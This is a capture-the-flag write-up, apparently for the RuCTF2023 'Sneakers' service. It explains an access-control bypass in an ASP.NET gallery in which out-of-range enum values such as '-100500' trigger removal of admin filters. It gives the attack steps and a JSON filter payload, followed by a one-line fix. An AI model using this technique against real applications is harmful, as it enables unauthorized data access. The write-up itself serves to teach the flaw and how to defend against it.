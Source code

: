 # RuCTF2023 | Sneakers
## Description
At Sneaker Art Gallery, you can create truly unique and personalized "barkhatnye tyagi" and also browse through an extensive collection of sneaker images from various styles.

The flag is located in the sneaker image, and the only way to obtain it is by downloading the image using `SneakersToken`.

# Original vuln
You can surf through the gallery and fetch the `SneakersToken`. The filtering system makes only sneakers with the `Pixel` collection visible to everyone. However, there is a bug in the `FilterReducer` that can delete redundant filters. In all filters, the default comparison uses the reference. The `AdminFilter` is a `record` with overridden `Equals()` and `GetHashCode()` methods, which means that `FilterReducer` can delete all occurrences of `AdminFilter`. You need to force `FilterReducer` to do it.

Type of `AdminFilter` is not represented in the `FilterType` enumeration. However, ASP.NET core doesn't have strong enum validation in the request body. For example:
```
Enum.TryParse("BLABLABLA", typeof(FilterType), out _); // false

Enum.TryParse("-100500", typeof(FilterType), out _); // true (FilterType it's integer inder the hood)
```

# Attack 
`FLAG_ID` - known `SneakersId` from cs

* Create artist to pass auth
* Send `gallery/exhibits` with `FLAG_ID` and filters payload.  
* Download image using `SneakersToken` and get flag

Filters payload example:
```
"conditions": [
    {
		"type" : "-100500",
      	"jsonString" : "{ \"OwnerToken\" : { \"Value\" : \"<your artist token>\"} }"
    },
    {
		"type" : "-100500",
      	"jsonString" : "{ \"OwnerToken\" : { \"Value\" : \"<your artist token>\"} }"
    }
  ]
```

# Defense
Make `AdminFilter` `class`, not `record`. 
